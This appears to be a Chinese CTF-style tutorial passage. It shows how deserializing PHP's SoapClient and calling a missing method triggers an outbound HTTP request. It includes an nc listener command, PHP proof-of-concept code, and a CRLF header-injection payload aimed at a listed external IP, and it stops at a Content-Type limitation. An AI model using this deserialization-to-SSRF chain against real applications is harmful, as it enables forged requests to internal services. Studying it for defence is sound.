 - [ ] php在安装php-soap拓展后，可以**反序列化原生类SoapClient，来发送http post请求**。

- [ ] 必须调用SoapClient不存在的方法，触发SoapClient的__call魔术方法。

- [ ] 通过CRLF来添加请求体：SoapClient可以指定请求的user-agent头，通过添加换行符的形式来加入其他请求内容

  

SoapClient采用了HTTP作为底层通讯协议，XML作为数据传送的格式，其采用了SOAP协议(SOAP 是一种简单的基于 XML 的协议,它使应用程序通过 HTTP 来交换信息)，其次我们知道某个实例化的类，如果去调用了一个不存在的函数，会去调用__call方法，具体详细的信息大家可以去搜索引擎看看，这里不再赘述

### 利用方式

下面首先在我的VPS上面开启监听`nc -lvvp 9328`

```php
<?php
$a = new SoapClient(null,array('uri'=>'bbb', 'location'=>'http://xxxx.xxx.xx:9328'));
$b = serialize($a);
$c = unserialize($b);
$c -> not_a_function();//调用不存在的方法，让SoapClient调用__call
```

运行上面的php程序，在我的vps上面奖会捕获监听

<img src="图片\Snipaste_2023-02-05_09-35-30.png" alt="Snipaste_2023-02-05_09-35-30" style="zoom:80%;" />

从上面这张图可以看到，`SOAPAction`处是我们的可控参数，因此我们可以尝试注入我们自己恶意构造的**CRLF**即插入**\r\n**，利用成功！

```
$a = new SoapClient(null,array('uri'=>'bbb\r\n\r\ntest\r\n', 'location'=>'http://43.142.255.132:9328'));
```

但是还有个问题我们再发送POST数据的时候是需要遵循HTTP协议，指定请求头Content-Type: application/x-www-form-urlencoded但Content-Type在SOAPAction的上面，就无法控制Content-Type,也就不能控制POST的数据
